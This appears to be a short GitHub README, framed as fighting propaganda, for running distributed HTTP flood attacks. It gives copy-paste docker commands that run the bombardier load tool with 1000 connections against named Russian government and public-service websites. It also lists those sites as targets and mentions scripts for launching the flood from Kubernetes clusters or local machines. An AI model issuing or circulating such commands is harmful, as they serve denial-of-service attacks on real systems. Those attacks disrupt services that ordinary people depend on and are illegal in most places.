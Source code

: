# bombardier
Fight agains propoganda

If you have kubertnetes cluster `./run_all_kuber.sh`
<br>
From local PC `./run_all_docker.sh`
<br>
or easiest way 

`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l http://kremlin.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://mil.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l http://www.scrf.gov.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://ach.gov.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://epp.genproc.gov.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://www.gosuslugi.ru`

<br>
sites
https://mil.ru
<br>
http://www.scrf.gov.ru
<br>
https://ach.gov.ru
<br>
https://epp.genproc.gov.ru
<br>
https://www.gosuslugi.ru
<br>
http://kremlin.ru
